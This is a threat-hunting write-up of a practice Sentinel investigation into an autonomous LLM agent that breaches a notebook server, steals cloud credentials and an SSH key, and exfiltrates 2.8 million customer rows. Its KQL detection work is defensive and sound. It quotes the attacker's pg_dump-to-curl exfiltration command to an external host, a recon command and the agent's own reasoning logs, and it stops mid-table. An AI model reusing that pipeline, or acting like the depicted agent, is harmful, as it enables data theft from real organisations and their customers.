# 🔍 Autonomous LLM Agent Compromise — Microsoft Sentinel Threat Hunt

### 🛡️ Threat Hunting Investigation | LLM Security | Microsoft Sentinel

**Hunt:** Meridian (Hunt 25) · **Platform:** Microsoft Sentinel · **Workspace:** `law-huntpractice`
**Window:** 2026-09-04, 11:05:02 – 11:57:00 UTC · **Elapsed:** 51 min 57 sec
**Analyst:** Tural Aghabalayev · **Result:** 3,100 / 3,100 points

---

## The short version

Someone pointed an LLM agent at an internet-facing marimo notebook server and told it to go find customer data and get it out. It did exactly that, in under an hour, with no human touching the keyboard after the first instruction.

The chain: exploit the marimo kernel WebSocket endpoint → steal the EC2 instance's AWS credentials from the metadata service → hunt through Secrets Manager behind a rotating pool of egress IPs → steal an SSH deploy key → log into the bastion host → enumerate Postgres → dump 2.8 million customer rows and pipe them straight out to an external server.

What makes this interesting isn't the techniques. Credential theft and SSH lateral movement are decades old. It's that the operator was a machine, and the machine **wrote down what it was about to do before it did it**. The agent's reasoning log named the CVE before firing the exploit, stated the row count before running the dump, and announced "objective complete" on the way out. A human operator leaves none of that behind.

> Modelled on activity the Sysdig Threat Research Team documented (Pisa, 2026): LLM agents used for autonomous post-exploitation, harvesting cloud credentials from instance metadata and moving laterally with stolen secrets.

---

## Environment

| Host | Role | Address |
|---|---|---|
| `gf-tg-nb01` | marimo notebook server (internet-facing) | `10.6.0.10` |
| `gf-tg-bastion01` | Bastion / jump host | `10.6.0.20` |
| `gf-tg-pg01` | PostgreSQL database server | `10.6.0.30` |

**Tables in scope (8):** `ApacheAccess_CL`, `LinuxProcess_CL`, `LinuxNetwork_CL`, `LinuxAuth_CL`, `LinuxShellHistory_CL`, `AWSCloudTrail`, `LLMAgentLogs_CL`, `Syslog`

> ⚠️ **Schema gotcha that cost me time:** most tables key the hostname on `Computer`, but `LinuxProcess_CL`, `LinuxNetwork_CL` and `LinuxAuth_CL` use `Dvc`. Those two process tables also timestamp on `EventStartTime` rather than `TimeGenerated`. If a query returns zero rows, check that before assuming you're on the wrong track.

### Three IP roles — don't collapse them

The easiest way to write a wrong incident report on this case. Three distinct address sets, three distinct jobs:

| Role | Address(es) | Phase |
|---|---|---|
| Staging / exploit delivery | `198.51.100.23` | Initial access |
| Rotating egress pool | `203.0.113.71`, `.94`, `.118`, `.142`, `.167`, `.203` | AWS API calls |
| Exfil / C2 drop | `203.0.113.41:8443` | Exfiltration |

### The actors

| | Estate's own assistant | The attacker |
|---|---|---|
| `actor` | `greenfield-notebook-assistant` | `tideglass-agent` |
| Sessions | 3, rotating | 1 (`tg-4b81e0d7`) |
| Span | Hours, scattered across the day | 11:05:02 → 11:57:00, continuous |

---

## Attack chain


```mermaid
flowchart LR
    A["198.51.100.23<br/>GET /ws/kernel (HTTP 101)<br/>CVE-2026-39987"] --> B["gf-tg-nb01<br/>python3.12 PID 5211<br/>parent: marimo"]
    B --> C["169.254.169.254<br/>IMDS credential theft<br/>svc-notebook"]
    C --> D["Secrets Manager<br/>7 read-only calls<br/>6 rotating source IPs"]
    D --> E["GetSecretValue<br/>prod/bastion/ssh-deploy-key<br/>11:31:16"]
    E --> F["gf-tg-bastion01<br/>SSH as 'deploy'<br/>/tmp/.c/id_ed25519"]
    F --> G["gf-tg-pg01<br/>psql recon<br/>customers, 2,841,902 rows"]
    G --> H["pg_dump | gzip | curl<br/>203.0.113.41:8443"]
```

---

## Timeline

| Time (UTC) | Event | Source |
|---|---|---|
| 11:05:02 | Agent session `tg-4b81e0d7` opens with a single human instruction | `LLMAgentLogs_CL` |
| 11:05:0x | `GET /ws/kernel` returns HTTP 101 from `198.51.100.23` | `ApacheAccess_CL` |
| 11:05:06 | `python3.12` PID 5211 spawned, parent = the marimo launch line | `LinuxProcess_CL` |
| 11:05:08 | Connection to `169.254.169.254`; credentials for `svc-notebook` obtained | `LinuxNetwork_CL` |
| 11:11:19 | First Secrets Manager call, source `203.0.113.71` | `AWSCloudTrail` |
| 11:22:41 | `ListSecrets` throttled, source `203.0.113.71` | `AWSCloudTrail` |
| 11:23:05 | `ListSecrets` succeeds on retry, source `203.0.113.94` | `AWSCloudTrail` |
| 11:23:06 – 11:23:15 | Four `DescribeSecret` calls, four more source addresses | `AWSCloudTrail` |
| 11:26:15 | Agent reasons that `prod/bastion/ssh-deploy-key` is "the way into the data subnet" | `LLMAgentLogs_CL` |
| 11:31:16 | `GetSecretValue` on `prod/bastion/ssh-deploy-key`, `ReadOnly = false` | `AWSCloudTrail` |
| 11:31:22 | `chmod 600 /tmp/.c/id_ed25519` on the notebook host | `LinuxShellHistory_CL` |
| 11:34:27 | `Accepted publickey for deploy from 10.6.0.10` on the bastion | `LinuxAuth_CL` |
| 11:37:40 | `psql` enumeration of the database | `LinuxShellHistory_CL` |
| 11:37:42 | Agent states the target holds 2,841,902 rows | `LLMAgentLogs_CL` |
| 11:40:44 | Postgres logs `database=customers host=10.6.0.20` | `Syslog` |
| 11:40:49 | `pg_dump` piped through `gzip` into `curl` → `203.0.113.41:8443` | `LinuxShellHistory_CL` |
| 11:57:00 | Agent records "customers exfiltrated, 2841902 rows … objective complete" | `LLMAgentLogs_CL` |

<details>
<summary><b>Screenshot — the whole session, start to finish</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where session_id == "tg-4b81e0d7"
| summarize FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated)
| extend Duration = LastSeen - FirstSeen
```



</details>

---

# Phase 1 — Initial Access

**MITRE ATT&CK:** [T1190](https://attack.mitre.org/techniques/T1190/) Exploit Public-Facing Application · [T1059.006](https://attack.mitre.org/techniques/T1059/006/) Python

### What I was looking for

A process started on the notebook host, and something had to have caused it. Web exploitation against a notebook server almost always leaves an HTTP artefact, so I swept the web log for the one thing a normal browsing session doesn't produce: **HTTP 101**, the WebSocket protocol upgrade. marimo's kernel endpoint speaks WebSocket, and that upgrade is the RCE surface.

<details>
<summary><b>KQL + screenshot — sweep for protocol upgrades</b></summary>

```kusto
ApacheAccess_CL
| where TimeGenerated >= datetime(2026-09-02 00:00:00)
| where TimeGenerated <= datetime(2026-09-15 23:59:59)
| where HttpStatus == 101
| project TimeGenerated, Computer, ClientIP, HttpMethod, UriStem, HttpStatus
| order by TimeGenerated asc
```



</details>

<details>
<summary><b>KQL + screenshot — narrow to the kernel endpoint</b></summary>

```kusto
ApacheAccess_CL
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where HttpStatus == 101
| where HttpMethod == "GET"
| where UriStem == "/ws/kernel"
| project TimeGenerated, Computer, ClientIP, HttpMethod, UriStem, HttpStatus
| order by TimeGenerated asc
```



</details>

**Finding:** `GET /ws/kernel`, HTTP 101, from `198.51.100.23`.

### Tying the request to the process

The request and the process start live in two different tables. Neither proves the breach alone — you join them on host and time. That's the core skill of this phase: half a fact in `ApacheAccess_CL`, half a fact in `LinuxProcess_CL`.

<details>
<summary><b>KQL + screenshot — the full process timeline</b></summary>

```kusto
LinuxProcess_CL
| where EventStartTime between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where Dvc contains "gf-tg"
| project EventStartTime, Dvc, TargetProcessName, TargetProcessId,
          TargetProcessCommandLine, ActingProcessName, ActingProcessId, ActingProcessCommandLine
| order by EventStartTime asc
```



</details>

<details>
<summary><b>Screenshot — PID 5211 at 11:05:06</b></summary>



At 11:05:06 a `python3.12` process starts as PID 5211 with a `python3 -c` payload command line, eleven seconds behind the WebSocket upgrade. PID 5212 (`env`) follows two seconds later.

</details>

`python3.12` on its own is a useless indicator here — it runs **74 times** in this window on this host. What separates the attacker's instance is its **parent**.

<details>
<summary><b>KQL + screenshot — group the spawns by parent</b></summary>

```kusto
LinuxProcess_CL
| where EventStartTime between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where Dvc == "gf-tg-nb01"
| where TargetProcessName == "python3.12"
| summarize Count = count() by ActingProcessName, ActingProcessCommandLine
| order by Count desc
```



</details>

**Finding:**

| Parent | Command line | Count |
|---|---|---|
| `bash` | `-bash` | 72 |
| `systemd` | `/sbin/init` | 1 |
| **`python3.12`** | **`/opt/venv/bin/marimo edit --host 0.0.0.0 --port 2718 --no-token`** | **1** |

One query, three rows, and the answer is the row with a count of 1. Seventy-two developer one-liners are parented to `bash`, one baseline process to `systemd`, and exactly one to the marimo server.

That parent command line is worth reading twice. `--host 0.0.0.0` binds it to every interface and `--no-token` disables authentication. The notebook server was published to the internet with auth turned off. The CVE was the door; this configuration is why the door was on the street.

**PID 5211 is the anchor for the rest of the hunt.** Every process and network query downstream scopes to it.

### The agent told on itself

<details>
<summary><b>KQL + screenshot — the CVE named before exploitation</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where tostring(model_response) contains "CVE-"
   or tostring(user_input) contains "CVE-"
   or tostring(tool_args) contains "CVE-"
| project TimeGenerated, RunId, actor, session_id, user_input, model_response, tool_name, tool_args
| order by TimeGenerated asc
```



</details>

**Finding:** `CVE-2026-39987`, marimo kernel RCE — named in the agent's own reasoning, in plain English, *before* the exploit fires:

> A marimo notebook is exposed on 2718 with no token. The kernel WebSocket accepts code without authentication (CVE-2026-39987), so I can execute directly in the kernel process.

I'd call this a **self-narration tell**. A human operator plans in their head or in a private notebook. An agent plans in a log you can query. If you're defending against agentic attacks, agent reasoning telemetry is the highest-value table you have — and most organisations don't collect it at all.

---

# Phase 2 — Credential Access

**MITRE ATT&CK:** [T1552.005](https://attack.mitre.org/techniques/T1552/005/) Cloud Instance Metadata API
**MITRE ATLAS:** [AML.T0098](https://atlas.mitre.org/) AI Agent Tool Credential Harvesting — maturity **Realized**

### The classic cloud move

From code execution on an EC2 instance, the fastest path to cloud is `169.254.169.254`, the instance metadata service. It hands the instance role's credentials to anything that can make an HTTP request from that host. No exploit, no password, just a curl.

<details>
<summary><b>KQL + screenshot — which identities called AWS</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where isnotempty(UserIdentityArn)
| summarize FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated), Calls = count(),
            AccessKeys = make_set(UserIdentityAccessKeyId),
            SourceIPs  = make_set(SourceIpAddress),
            Actions    = make_set(EventName)
    by UserIdentityArn
| order by FirstSeen asc
```



</details>

**Finding:** `arn:aws:iam::402913776148:user/svc-notebook` — the EC2 instance's own service account.

From here on, every AWS API call in the incident is made as this identity. The service account's role became the intruder's cloud identity.

### The PID attribution trap

A colleague reviewing this made a reasonable assumption: shell history shows a `curl` hitting the metadata service, so the network log should attribute that connection to the curl process. I tested it against the network telemetry.

**The assumption does not hold.**

<details>
<summary><b>KQL + screenshot — who actually owned the socket</b></summary>

```kusto
LinuxNetwork_CL
| where EventStartTime between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where DstIpAddr == "169.254.169.254"
| summarize Count = count() by ActingProcessName
| order by Count desc
```



</details>

**Finding:** the metadata connection is attributed to **`python3.12` (PID 5211)** — the interpreter — not to the `curl` child it spawned.

Why this matters practically: the interpreter that spawned `curl` owns the socket in this telemetry. If you filter the network log on the curl PID because that's what shell history showed you, you get nothing back and conclude the connection never happened. That's a false negative produced entirely by an assumption about how process attribution works.

Shell history tells you what was *typed*. Network telemetry tells you what the kernel *saw*. They don't always agree on which process gets the credit, and for network questions the network log is the authority.

### Framework mapping

ATLAS `AML.T0098` covers an agent's own tooling retrieving cloud credentials. **Realized** maturity means it's been observed in a confirmed real-world incident, not just a research setting.

The dual mapping is the point of this hunt: **ATLAS describes the AI-specific layer, ATT&CK describes the conventional consequence.** Same event, two frameworks, and the report needs both. ATLAS alone doesn't tell a cloud team what to rotate; ATT&CK alone loses the fact that an autonomous agent drove it.

---

# Phase 3 — Defense Evasion

**MITRE ATT&CK:** [T1090.003](https://attack.mitre.org/techniques/T1090/003/) Multi-hop Proxy · [T1526](https://attack.mitre.org/techniques/T1526/) Cloud Service Discovery

### One credential, six addresses

With `svc-notebook` credentials in hand, the agent started enumerating Secrets Manager — and every call came from a different source IP.

Pivot on source address and this scatters into six unrelated-looking sightings you may never join up. The stable identifier is the **access key**.

<details>
<summary><b>KQL + screenshot — group Secrets Manager activity by key</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where EventSource == "secretsmanager.amazonaws.com"
| summarize Calls = count(), FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated),
            SourceIPs = make_set(SourceIpAddress), Actions = make_set(EventName)
    by UserIdentityAccessKeyId
| order by Calls desc
```



</details>

**Finding:** access key `AKIA4TIDEGLASS0EXAMPLE` sits behind every call. (The key string even carries the actor name — `tideglass`.)

### The full sequence, with the throttle in it

<details>
<summary><b>KQL + screenshot — every call by that key, in order</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 11:00:00) .. datetime(2026-09-04 11:40:00))
| where UserIdentityAccessKeyId == "AKIA4TIDEGLASS0EXAMPLE"
| project TimeGenerated, EventSource, EventName, SourceIpAddress, ErrorCode, RequestParameters
| order by TimeGenerated asc
```



</details>

**Finding:**

| Time (UTC) | Call | Source IP |
|---|---|---|
| 11:11:19 | `ListSecrets` | `203.0.113.71` |
| **11:22:41** | **`ListSecrets` (throttled)** | **`203.0.113.71`** |
| **11:23:05** | **`ListSecrets` (success)** | **`203.0.113.94`** |
| 11:23:06 | `DescribeSecret` | `203.0.113.118` |
| 11:23:09 | `DescribeSecret` | `203.0.113.142` |
| 11:23:13 | `DescribeSecret` | `203.0.113.167` |
| 11:23:15 | `DescribeSecret` | `203.0.113.203` |
| 11:31:16 | `GetSecretValue` | `203.0.113.142` |

A **24-second gap** between the throttled call and the retry — and the source address changed across it. The agent didn't just back off and retry; it rotated egress and came back from somewhere else. That's an adaptive response to a defensive control, and the two source addresses are exactly what local telemetry gives you that a public write-up cannot.

Then look at what happens immediately after: four `DescribeSecret` calls in nine seconds, each from a fresh address. That's not a human clicking through a console.

<details>
<summary><b>KQL + screenshot — count the pool</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 11:00:00) .. datetime(2026-09-04 11:40:00))
| where EventSource == "secretsmanager.amazonaws.com"
| where UserIdentityAccessKeyId == "AKIA4TIDEGLASS0EXAMPLE"
| summarize FirstSeen = min(TimeGenerated) by SourceIpAddress
| order by FirstSeen asc
```



</details>

**Finding:** **6 distinct source addresses**, in order of first appearance:

`203.0.113.71` → `.94` → `.118` → `.142` → `.167` → `.203`

Many addresses + one credential + minutes-long window = egress pool. One address + one credential + all day = automation doing its job. `T1090.003` is the right classification for routing a single credential across disposable egress infrastructure.

Worth noting: **ATLAS has no equivalent technique for the egress infrastructure itself.** That layer is purely conventional tradecraft even when an agent is driving it.

---

# Phase 4 — Collection

**MITRE ATT&CK:** [T1555.006](https://attack.mitre.org/techniques/T1555/006/) Cloud Secrets Management Stores · [T1552.001](https://attack.mitre.org/techniques/T1552/001/) Credentials In Files
**MITRE ATLAS:** AML.T0086 — an agent's own tool call as the collection event

### Recon vs. theft, separated by one field

Eight Secrets Manager calls in the session. Seven are reconnaissance, one is the theft. They look nearly identical in CloudTrail, and the field that separates them is one most analysts never project.

<details>
<summary><b>KQL + screenshot — the ReadOnly flag across the sequence</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 11:00:00) .. datetime(2026-09-04 11:40:00))
| where EventSource == "secretsmanager.amazonaws.com"
| where UserIdentityAccessKeyId == "AKIA4TIDEGLASS0EXAMPLE"
| project TimeGenerated, EventName, ReadOnly, SourceIpAddress, ErrorCode
| order by TimeGenerated asc
```



</details>

**Finding:** the discriminating field is **`ReadOnly`**, and its value for the theft is **`false`**.

Seven `true` rows, then one `false`. That's the cleanest programmatic line between "looking around" and "taking something."

<details>
<summary><b>KQL + screenshot — the theft call in detail</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:35:00))
| where EventName == "GetSecretValue"
| project TimeGenerated, SourceIpAddress, UserIdentityAccessKeyId, UserIdentityArn, ReadOnly
| order by TimeGenerated asc
```



</details>

| Field | Value |
|---|---|
| Time | `11:31:16` |
| Secret | `prod/bastion/ssh-deploy-key` |
| Source IP | `203.0.113.142` |
| Identity | `arn:aws:iam::402913776148:user/svc-notebook` |
| `ReadOnly` | `false` |

If you build one detection off this hunt, build it here. `ReadOnly == false` on Secrets Manager, filtered to identities that don't normally read secrets, is a low-noise high-value signal.

### The agent explains its own reasoning

<details>
<summary><b>KQL + screenshot — why it chose that secret</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:35:00))
| where tostring(model_response) contains "prod/bastion/ssh-deploy-key"
   or tostring(tool_args)     contains "prod/bastion/ssh-deploy-key"
   or tostring(tool_result)   contains "prod/bastion/ssh-deploy-key"
| project TimeGenerated, session_id, actor, model_response, tool_name, tool_args, tool_result
| order by TimeGenerated asc
```



</details>

At 11:26:15 — five minutes before the API call — the agent writes that `prod/bastion/ssh-deploy-key` is the way into the data subnet, and that everything so far has been read-only enumeration. It labels its own recon phase and announces the transition to theft.

<details>
<summary><b>KQL + screenshot — wider agent context around the credential hunt</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:35:00))
| extend AllText = strcat(tostring(user_input), " ", tostring(model_response), " ",
                          tostring(tool_name), " ", tostring(tool_args), " ", tostring(tool_result))
| where AllText has_any ("GetSecretValue", "SecretId", "postgres", "password", "credential", "db", "prod/")
| project TimeGenerated, RunId, actor, AllText
| order by TimeGenerated asc
```



</details>

### The visibility gap — what CloudTrail cannot tell you

**Can the actual private key material be recovered from `AWSCloudTrail` alone? No.**

<details>
<summary><b>KQL + screenshot — what the response actually records</b></summary>

```kusto
AWSCloudTrail
| where TimeGenerated between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:35:00))
| where EventSource == "secretsmanager.amazonaws.com"
| where EventName == "GetSecretValue"
| project TimeGenerated, EventName, RequestParameters, ResponseElements, ErrorCode
```



</details>

**Finding:** `ResponseElements` carries a `VersionId` and nothing else. AWS management-event logging is designed to record *that* a secret was read, never *what it contained*.

This is the most professionally important finding in the hunt, because the correct answer is "the telemetry cannot answer this." An analyst who can't distinguish **"I did not find it"** from **"it is not there"** will understate breach scope — and in a real incident that decision drives what you tell regulators and customers.

To establish what the key material actually was, you'd need the secret's version history in Secrets Manager, or the resulting artefact on disk. Which is where the next phase picks up.

---

# Phase 5 — Lateral Movement

**MITRE ATT&CK:** [T1021.004](https://attack.mitre.org/techniques/T1021/004/) SSH · [T1078.004](https://attack.mitre.org/techniques/T1078/004/) Cloud Accounts

### From API call to file to login

A stolen secret isn't a log entry — it becomes a file, and that file does something. Tracing that hop is the exercise.

<details>
<summary><b>KQL + screenshot — the key written to disk</b></summary>

```kusto
LinuxShellHistory_CL
| where TimeGenerated between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:40:00))
| where Command has_any ("ssh", "authorized_keys", "id_rsa", "chmod", "echo", "cat", "tee")
| project TimeGenerated, Computer, ShellUser, Command
| order by TimeGenerated asc
```



</details>

**Finding:** `chmod 600 /tmp/.c/id_ed25519` at **11:31:22**, six seconds after the `GetSecretValue`, running as `ShellUser = marimo` on `gf-tg-nb01`.

Three details in one line:
- `chmod 600` — SSH refuses a key with looser permissions, so this is a necessary step, not an optional one. It's a reliable detection anchor.
- `/tmp/.c/` — a dot-prefixed directory hides from a plain `ls`. Minor evasion, but the tradecraft isn't naive.
- `ShellUser = marimo` — the notebook service account. This is code execution inside the compromised service, exactly where Phase 1 left us.

### Finding one bad login among 318

My favourite flag in the hunt. The bastion has hundreds of successful logins in the window, and **every one of them uses `publickey` authentication** — same as the attacker's. The auth method tells you nothing.

<details>
<summary><b>KQL + screenshot — the baseline of successful logins</b></summary>

```kusto
LinuxAuth_CL
| where EventStartTime between (datetime(2026-09-04 11:25:00) .. datetime(2026-09-04 11:40:00))
| where EventResult =~ "Success"
| project EventStartTime, Dvc, TargetUsername, EventOriginalMessage
| order by EventStartTime asc
```



</details>

<details>
<summary><b>KQL + screenshot — count them by account</b></summary>

```kusto
LinuxAuth_CL
| where EventStartTime between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where Dvc == "gf-tg-bastion01"
| where EventResult == "Success"
| summarize Count = count() by TargetUsername
| order by Count desc
```



</details>

**Finding:** the discriminating field is **`TargetUsername`**, value **`deploy`**.

| Account | Logins |
|---|---|
| `p.reyes` | 90 |
| `h.nakamura` | 78 |
| `o.diallo` | 77 |
| `l.brandt` | 72 |
| **`deploy`** | **1** |

Four named humans account for 317 logins. One service account logs in once, interactively, and shouldn't be logging in at all. The lesson generalises: **when the technique is shared with the baseline, stop looking at the technique and start looking at the identity.**

### The shareable indicator

<details>
<summary><b>KQL + screenshot — sshd's recorded fingerprint</b></summary>

```kusto
LinuxAuth_CL
| where EventStartTime between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 11:38:00))
| where Dvc == "gf-tg-bastion01"
| where TargetUsername == "deploy"
| where EventResult == "Success"
| project EventStartTime, TargetUsername, EventOriginalMessage
```



</details>

**Finding:**

```
11:34:27  Accepted publickey for deploy from 10.6.0.10 port 45210 ssh2:
          ED25519 SHA256:mNq7xR2vTbY8kLpJ4wZaHc1oUeVgX5tDsQiFj0rWnAE
```

Two things to pull out. The **fingerprint** — not the key material — is what a defender can alert on, block, and hand to another team; it's the string you put in the report so every host in the estate can be checked for the same key. And the **source, `10.6.0.10`**, is the notebook host. That single field closes the loop from Phase 1 to Phase 5 inside one log line.

---

# Phase 6 — Discovery and Exfiltration

**MITRE ATT&CK:** [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Discovery · [T1213](https://attack.mitre.org/techniques/T1213/) Data from Information Repositories · [T1005](https://attack.mitre.org/techniques/T1005/) Data from Local System

### Recon before impact

From the bastion, the agent enumerated the database before touching any data.

<details>
<summary><b>KQL + screenshot — database enumeration</b></summary>

```kusto
LinuxShellHistory_CL
| where TimeGenerated between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 12:00:00))
| where Computer == "gf-tg-bastion01"
| where Command has_any ("psql", "postgres", "\\l", "\\dt", "pg_dump", "SELECT")
| project TimeGenerated, Computer, ShellUser, Command
| order by TimeGenerated asc
```



</details>

**Finding, at 11:37:40:**

```bash
psql -h 10.6.0.30 -U app -c '\dt+' | sort -k7 -h | tail -5
```

Read what this actually does: `\dt+` lists tables *with sizes*, `sort -k7 -h` sorts on the size column human-readably, `tail -5` takes the five biggest. This is an operator asking "where is the most data?" and nothing else. Three minutes later the dump runs.

<details>
<summary><b>KQL + screenshot — every data-handling command on the bastion</b></summary>

```kusto
LinuxShellHistory_CL
| where TimeGenerated between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 12:00:00))
| where Computer == "gf-tg-bastion01"
| where Command has_any ("pg_dump", "psql", "curl", "wget", "nc", "ncat", "scp", "rsync", "gzip", "tar")
| project TimeGenerated, ShellUser, Command
| order by TimeGenerated asc
```



</details>

Worth pausing on: a deliberately wide net across ten different data-movement tools returns **two rows**. No cleanup, no staging, no exploratory fumbling. The agent knew what it wanted and ran exactly two commands to get it.

### Scale established before the dump

<details>
<summary><b>KQL + screenshot — the agent states the row count</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 12:00:00))
| where tostring(model_response) contains "row"
   or tostring(tool_result)      contains "row"
   or tostring(tool_args)        contains "COUNT"
   or tostring(tool_args)        contains "count"
| project TimeGenerated, actor, model_response, tool_name, tool_args, tool_result
| order by TimeGenerated asc
```



</details>

**Finding:** **2,841,902 rows**, stated in the agent's own reasoning at 11:37:42 as justification for the target — *before* any dump ran:

> The customers database is the largest object in the instance at 2841902 rows.

And at 11:57:00, the closing line of the session:

> customers exfiltrated, 2841902 rows, compressed and pushed to 203.0.113.41:8443. Objective complete.

For the incident report this is the difference between "a database was accessed" and "2.8 million customer records were taken." Notification obligations turn on numbers like that, and here the attacker supplied both the figure and the confirmation.

### The exfiltration

<details>
<summary><b>KQL + screenshot — the dump command</b></summary>

```kusto
LinuxShellHistory_CL
| where TimeGenerated between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 12:00:00))
| where Computer == "gf-tg-bastion01"
| where Command has_any ("pg_dump", "curl", "wget", "scp", "rsync", "nc", "ncat")
| project TimeGenerated, ShellUser, Command
| order by TimeGenerated asc
```



</details>

**Finding, at 11:40:49, as `deploy`:**

```bash
pg_dump -h 10.6.0.30 -U app -Fc customers | gzip | curl -s -T - https://203.0.113.41:8443/u
```

Note the shape of it: `-Fc` (custom compressed format) piped into `gzip` piped into `curl -T -` reading from stdin. **The data never lands on disk.** No dump file for a DLP agent to fingerprint, no artefact for a forensic image to recover. Everything streams. On the wire it's HTTPS on a non-standard port, which looks unremarkable to most egress filtering.

Destination `203.0.113.41:8443` — distinct from both the staging address and the egress pool.

### Proving the target from the database's own telemetry

Process lists tell you what was *run*. To prove the database was actually reached, and which one, go to Postgres's own log.

<details>
<summary><b>KQL + screenshot — Postgres connection log</b></summary>

```kusto
Syslog
| where TimeGenerated between (datetime(2026-09-04 11:30:00) .. datetime(2026-09-04 12:00:00))
| where Computer contains "gf-tg"
| where SyslogMessage contains "database="
| project TimeGenerated, Computer, SyslogMessage
| order by TimeGenerated asc
```



</details>

**Finding:** the field is **`database`**, the value is **`customers`**:

```
11:40:44  connection authorized: user=app database=customers          host=10.6.0.20
11:54:58  connection authorized: user=app database=greenfield_platform host=10.6.0.15
```

One line proves three things at once: the right database, the right time (four seconds before `pg_dump` appears in shell history), and the right source — `10.6.0.20`, the bastion. The routine application traffic on this host connects to `greenfield_platform` from `10.6.0.15`. Different database, different source.

This is independent corroboration from the victim system itself — not the attacker's host, not an EDR agent's interpretation.

### "It's just the nightly backup running early"

A fair challenge. A `pg_dump` at an odd hour genuinely could be a scheduled job. Two discriminators kill it:

| | Legitimate backup | This activity |
|---|---|---|
| Account | `pgbackup` | **`deploy`** |
| Destination | Local network, `10.6.0.0/24` | **`203.0.113.41`** (external) |

Wrong account, wrong destination. The backup job never leaves the subnet. Being able to answer this quickly and with evidence is what stops an incident from being dismissed in triage — which, in my view, is the most common way real breaches get missed.

---

# Phase 7 — Autonomy: who was actually driving?

**MITRE ATT&CK:** [T1059.006](https://attack.mitre.org/techniques/T1059/006/) Python

The agent log holds more than one conversation. The estate runs its own assistant across three rotating sessions doing routine work. The attacker's session is the outlier.

<details>
<summary><b>KQL + screenshot — isolate the hostile session</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| summarize Count = count(), FirstSeen = min(TimeGenerated), LastSeen = max(TimeGenerated),
            Actors = make_set(actor), Inputs = make_set(user_input)
    by session_id, RunId
| order by FirstSeen asc
```



</details>

**Finding:** session **`tg-4b81e0d7`**, actor **`tideglass-agent`**.

| Session | Actor | Records | Span |
|---|---|---|---|
| `gn-5e2a9f63` | greenfield-notebook-assistant | 26 | 12:31 AM → 1:21 PM |
| `gn-91b4d0c2` | greenfield-notebook-assistant | 31 | 12:37 AM → 1:34 PM |
| `gn-3f7c8a1e` | greenfield-notebook-assistant | 41 | 3:03 AM → 1:41 PM |
| **`tg-4b81e0d7`** | **tideglass-agent** | **9** | **11:05 AM → 11:57 AM** |

One summarize does the whole job. The estate's sessions each stretch across twelve-plus hours with dozens of scattered records. The attacker's session is nine records in fifty-two minutes — a different shape entirely, visible before you read a single log body.

<details>
<summary><b>KQL + screenshot — the tasking instruction</b></summary>

```kusto
LLMAgentLogs_CL
| where TimeGenerated between (datetime(2026-09-04 00:00:00) .. datetime(2026-09-04 23:59:59))
| where session_id == "tg-4b81e0d7"
| where isnotempty(user_input)
| project TimeGenerated, session_id, actor, user_input
| order by TimeGenerated asc
```



</details>

**Finding:** exactly one `user_input` record in the whole session, at 11:05:02:

> "Find and extract the most valuable customer dataset in this environment, and get it out."

### Person, machine, or a person who set a machine going?

**Verdict: human-tasked, machine-executed.**

This isn't a binary question, and getting it right changes your response posture. Three artefacts support it:

| # | Evidence | Table.Field |
|---|---|---|
| 1 | A **single** human instruction at the start — one line, goal-level, no step-by-step direction | `LLMAgentLogs_CL.user_input` |
| 2 | Autonomous reasoning throughout: the agent picks targets, names the CVE, justifies the table choice on row count, declares the objective complete | `LLMAgentLogs_CL.model_response` |
| 3 | A continuous 51-minute-57-second chain with no human-scale pauses | `LLMAgentLogs_CL.TimeGenerated` |

One instruction in, nine autonomous steps out, and the goal stated in the instruction is the goal reported as complete at the end. The human chose the objective; the machine chose every method.

**Why this matters for response:** if a human is on the keyboard, blocking their IP and killing their session buys real time. If a goal-seeking agent is driving, blocking one egress address gets you a 24-second pause and a new address — which is precisely what Phase 3 shows. Containment has to target the **credential and the identity**, not the network path.

---

# Phase 8 — Real or Noise

The section that separates hunting from log reading. Every artefact here has a noisy legitimate twin in the same table. In each case the indicator itself is shared, and one field separates them.

| Signal | Baseline noise | Discriminating field | Attacker value |
|---|---|---|---|
| `python3.12` spawn | 72 developer one-liners (parent `bash`) + 1 baseline (parent `systemd`) | `ActingProcessCommandLine` | `/opt/venv/bin/marimo edit --host 0.0.0.0 --port 2718 --no-token` |
